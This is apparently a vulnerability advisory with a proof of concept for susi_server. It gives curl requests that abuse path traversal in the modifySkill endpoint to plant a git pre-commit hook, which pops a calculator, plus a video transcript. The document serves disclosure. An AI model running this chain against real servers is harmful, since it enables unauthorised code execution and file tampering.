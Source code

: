 We change the first curl command:
1. Run
   ```bash
   `curl -X POST -F 'access_token=[YOUR_ACCESS_TOKEN]' -F 'imageChanged=false' \
   -F 'image_name_changed=true' -F 'OldModel=general' -F 'OldGroup=Knowledge' \
   -F 'OldLanguage=en' -F 'OldSkill=whois' -F 'NewModel=general' \
   -F 'NewGroup=Knowledge' -F 'NewLanguage=en' -F 'NewSkill=whois' \
   -F 'content=ANYTHING' -F 'new_image_name=../pre-commit.txt' \
   -F 'old_image_name=../../../../../../susi_server/src/org/json/JSONException.java' \
   'http://localhost:4000/cms/modifySkill.json'
   ```
   (`-F 'old_image_name=../../../../../../`**`susi_server/src/org/json/JSONException.java`**` changed)
2. Run
   ```bash
   curl -X POST -F 'access_token=[YOUR_ACCESS_TOKEN]' -F 'imageChanged=false' \
   -F 'image_name_changed=true' -F 'OldModel=general' -F 'OldGroup=Knowledge' \
   -F 'OldLanguage=en' -F 'OldSkill=pre-commit' -F 'NewModel=general' \
   -F 'NewGroup=Knowledge' -F 'NewLanguage=en' -F 'NewSkill=pre-commit' \
   -F $'content=#!/bin/sh\nexec xcalc' \
   -F 'new_image_name=../../../../../../susi_skill_data/.git/hooks/pre-commit' \
   -F 'old_image_name=../pre-commit.txt' 'http://localhost:4000/cms/modifySkill.json'
   ```

Et voila!
After about 60 seconds a calc pops up.

# POC-Video - Detailed Explanation

<video preload="none" controls="controls" style="width:100%" aria-describedby="video-transcript">
{% for video in site.static_files %}
  {% if video.path contains 'assets/videos/isl-2020-001-fossasia_susi_server_git_hooks_rce.mp4' %}
      <source type="video/mp4" src="{{ video.path }}">
  {% endif %}
  {% if video.path contains 'assets/videos/isl-2020-001-fossasia_susi_server_git_hooks_rce.webm' %}
      <source type="video/webm" src="{{ video.path }}">
  {% endif %}
{% endfor %}
  <p>Your browser does not support the video element.</p>
</video>

#### Video Transcript - Detailed Explanation:
<p id="video-transcript">

1. In a terminal `bin/start.sh` is executed inside the `susi_server` folder to start the server.

2. In a terminal the following command is executed:
   ```bash
   curl -X POST -F 'access_token=[YOUR_ACCESS_TOKEN]' -F 'model=general' \
   -F 'group=Knowledge' -F 'language=en' -F 'skill=whois' -F 'content=OWNED' \
   -F 'image=' -F 'image_name=owned' 'http://localhost:4000/cms/createSkill.json'
   ```
   This creates the file `susi_skill_data/models/general/Knowledge/en/whois.txt` (`susi_skill_data` is a sibling directory of `susi_server`) with the content `OWNED`.
